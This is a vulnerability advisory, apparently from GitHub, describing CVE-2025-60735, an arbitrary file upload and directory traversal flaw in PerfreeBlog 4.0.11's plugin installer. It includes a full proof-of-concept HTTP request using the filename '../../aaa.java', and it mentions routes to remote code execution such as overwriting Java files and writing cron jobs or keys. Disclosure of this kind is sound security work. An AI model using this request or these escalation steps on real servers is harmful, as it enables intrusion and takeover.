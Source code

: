 # Arbitrary File Upload Vulnerability in PerfreeBlog System(CVE-2025-60735)

## Official Website
https://perfree.org.cn/

## Download Link
https://gitee.com/PerfreeBlog/PerfreeBlog


## Vulnerability Description
The PerfreeBlog system has an arbitrary file upload vulnerability, which allows uploading any file to the server and gaining server privileges.


## Vulnerable Version
Latest version 4.0.11


## Vulnerability Principle
The relevant code details are as follows:
The code for uploading plugin files is as follows:
![](./img/1.png)
It first loads the uploaded plugin file into the temp directory.
![](./img/2.png)
Enter the `installPlugin` function.
![](./img/4.png)
Enter the `extractZipPlugin` function and find that it first decompresses the file. If the uploaded file is not a zip file, the decompression will fail, and the `del` function in the previous image will not be executed. As a result, the uploaded file will be saved in the temp directory. Moreover, directory traversal can be performed using `../`, leading to a file upload vulnerability and potential file overwriting.
![](./img/5.png)


## Vulnerability Reproduction
First, log in to the background and navigate to Plugin Management.
![](./img/3.png)

Click "Upload File" and capture the packet.
The interface is:
```
http://127.0.0.1:8086/api/auth/plugins/installPlugin
```
This interface allows uploading files with any suffix to the temp directory, and directory traversal can be performed using `../`.

```
POST /api/auth/plugins/installPlugin HTTP/1.1
Host: 127.0.0.1:8086
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImlzcyI6InNlY3VyaXR5IiwiaWF0IjoxNzU1NzU1MDc5LCJhdWQiOiJzZWN1cml0eS1hbGwiLCJleHAiOjE3NTU3NjIyNzl9.azdp21oZS07AwDE6ktPN4Ke6jTLYPUNl1AgefyplPkI
Content-Type: multipart/form-data; boundary=----geckoformboundary60799225bab841ffad0224b272f8ae53
Content-Length: 233
Origin: http://127.0.0.1:8086
Connection: keep-alive
Referer: http://127.0.0.1:8086/admin/plugin
Cookie: 
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary60799225bab841ffad0224b272f8ae53
Content-Disposition: form-data; name="file"; filename="../../aaa.java"
Content-Type: text/plain

111111111111111
------geckoformboundary60799225bab841ffad0224b272f8ae53--
```
![](./img/6.png)
Successfully uploaded to the target directory. It is also possible to overwrite existing Java files to achieve RCE, as shown in the following figure.
![](./img/7.png)


For Linux systems, it is possible to write cron jobs, public-private keys, etc., to gain server privileges.
